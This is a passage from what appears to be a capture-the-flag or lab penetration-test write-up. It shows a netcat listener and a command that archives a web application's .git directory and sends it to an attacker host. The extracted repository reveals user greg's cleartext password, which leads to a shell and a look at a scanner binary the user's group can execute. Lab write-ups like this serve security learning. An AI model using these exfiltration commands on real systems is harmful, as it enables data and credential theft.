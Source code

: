 However, it was possible to compress the directory and read it locally with the following commands:

```sh
# on kali
nc -lvnp 4444 > git.tar

# on client
tar cf /tmp/git.tar /var/www/html/intentions/.git
nc -w 3 10.10.15.14 4444 < /tmp/git.tar
```

Once the .git directory was extracted locally, it contained the cleartext password of the user **greg**.

![](screenshots/14-gregs-password.png)

![](screenshots/15-greg-shell.png)

It was verified that **greg** was a member of the **scanner** group. This group had execution permission on the custom binary located in `/opt/scanner/scanner`.

![](screenshots/16-scanner-group.png)
